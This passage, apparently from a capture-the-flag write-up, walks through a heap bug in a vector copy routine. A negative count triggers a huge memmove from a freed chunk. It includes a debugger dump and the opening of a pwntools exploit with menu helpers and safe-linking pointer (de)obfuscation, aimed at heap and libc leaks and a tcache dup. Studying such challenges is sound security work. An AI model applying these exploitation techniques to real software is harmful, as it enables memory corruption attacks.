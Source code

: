 If we enter the `count` as negative value, `last` is lower than `first` and it makes third argument huge. This is a context when I enter the src(1), dest(3), count(-1).

```c
Breakpoint 9, 0x0000555555556c6b in unsigned long* std::__copy_move<false, true, std::random_access_iterator_tag>::__copy_m<unsigned long>(unsigned long const*, unsigned long const*, unsigned long*) ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────
...
*RDX  0xfffffffffffffff8
*RDI  0x55555556e018 ◂— 0x3
*RSI  0x55555556e008 ◂— 0x1
...
──────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────
 ► 0x555555556c6b <unsigned long* std::__copy_move<false, true, std::random_access_iterator_tag>::__copy_m<unsigned long>(unsigned long const*, unsigned long const*, unsigned long*)+73>                                                                                         call   memmove@plt                <memmove@plt>
        dest: 0x55555556e018 ◂— 0x3
        src: 0x55555556e008 ◂— 0x1
        n: 0xfffffffffffffff8
```

Since the latest memmove is applied with optimization, I can’t explain the details in it. But, after calling this function, our vector get copied from the freed chunk. Using this, we can leak heap & libc base and try tcacue dup through “a little” effort. Cause we have Read/Write primitive in our vector, it is possible.

Here is a exploit for it.

```python
from pwn import *
choice = lambda x:p.sendline(str(x).encode())
def Set(idx, value):
    choice(1)
    p.sendline(str(idx).encode())
    p.sendline(str(value).encode())

def Get(idx):
    choice(2)
    p.sendline(str(idx).encode())
    p.recvuntil(b" = ")

def Copy(src, dst, cnt):
    choice(3)
    p.sendline(str(src).encode())
    p.sendline(str(dst).encode())
    p.sendline(str(cnt).encode())

def Clear():
    choice(4)

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, addr):
    return p ^ (addr>>12)

```